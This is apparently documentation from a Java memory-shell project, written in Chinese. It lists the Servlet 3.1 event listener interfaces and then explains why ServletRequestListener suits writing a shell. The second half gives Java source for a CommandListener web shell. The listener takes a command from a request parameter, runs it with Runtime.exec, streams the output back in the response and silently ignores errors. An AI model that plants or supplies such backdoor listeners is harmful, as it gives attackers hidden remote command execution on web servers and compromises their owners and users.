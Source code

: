 # Event Listeners

> [Servlet 3.1 规范 - 事件监听器](https://github.com/waylau/servlet-3.1-specification/blob/master/docs/Application%20Lifecycle%20Events/11.2%20Event%20Listeners.md)

Servlet 事件监听器支持当 ServletContext、HttpSession 和 ServletRequest 状态变更时发送事件通知。每个事件类型的监听器都支持多个，并且开发者可以指定监听器的调用顺序。

| Listener 接口类                                     | 描述                              |
|--------------------------------------------------|---------------------------------|
| javax.servlet.ServletContextListener             | 在 ServletContext 创建以及销毁时        |
| javax.servlet.ServletContextAttributeListener    | 在 ServletContext 添加、移除或替换属性时    |
| javax.servlet.http.HttpSessionListener           | 在 HttpSession 创建和销毁时            |
| javax.servlet.http.HttpSessionAttributeListener  | 在 HttpSession 上添加、移除或替换属性       |
| javax.servlet.http.HttpSessionIdListener         | 在 HttpSession id 变化时            |
| javax.servlet.http.HttpSessionActivationListener | 在 HttpSession 激活或钝化时            |
| javax.servlet.http.HttpSessionBindingListener    | 在 HttpSession 上对象绑定或解绑时         |
| javax.servlet.ServletRequestListener             | 在 ServletRequest 在将要被 Web 容器处理时 |
| javax.servlet.ServletRequestAttributeListener    | 在 ServletRequest 上添加、移除或替换属性时   |
| javax.servlet.AsyncListener                      | 在异步操作开始、超时或完成时                 |

## ServletRequestListener

在编写 shell 时我们需要关注的主要就是 ServletRequestListener，在请求处理之前可以在拿到请求信息并处理（在 Filter 以及 Servlet 之前），由于它作为事件监听器的一员，并没有直接结束请求的机制，因此在对响应体重写等操作结束之后，最后还是会走到 Filter 和 Servlet 的逻辑。

```java
public interface ServletRequestListener extends EventListener {
    public void requestDestroyed(ServletRequestEvent sre);

    /**
     * Receives notification that a ServletRequest is about to come
     * into scope of the web application.
     *
     * @param sre the ServletRequestEvent containing the ServletRequest
     * and the ServletContext representing the web application
     */
    public void requestInitialized(ServletRequestEvent sre);
}
```

以下时使用 ServletRequestListenerShell 命令回显的代码实现。

1. 由于此处只能拿到 ServletRequestEvent，其中只有 ServletRequest，但是一般中间件实现中，ServletRequest 中都会有能获取到 ServletResponse 的方法，因此额外新增了一个 getResponseFromRequest 方法。

```java
public class CommandListener implements ServletRequestListener {
    public static String paramName;

    public CommandListener() {
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        HttpServletRequest request = (HttpServletRequest) servletRequestEvent.getServletRequest();
        try {
            String cmd = request.getParameter(paramName);
            if (cmd != null) {
                HttpServletResponse servletResponse = this.getResponseFromRequest(request);
                Process exec = Runtime.getRuntime().exec(cmd);
                InputStream inputStream = exec.getInputStream();
                ServletOutputStream outputStream = servletResponse.getOutputStream();
                byte[] buf = new byte[8192];
                int length;
                while ((length = inputStream.read(buf)) != -1) {
                    outputStream.write(buf, 0, length);
                }
            }
        } catch (Exception ignored) {
        }
    }

    private HttpServletResponse getResponseFromRequest(HttpServletRequest request) throws Exception {
        return null;
    }
}
```
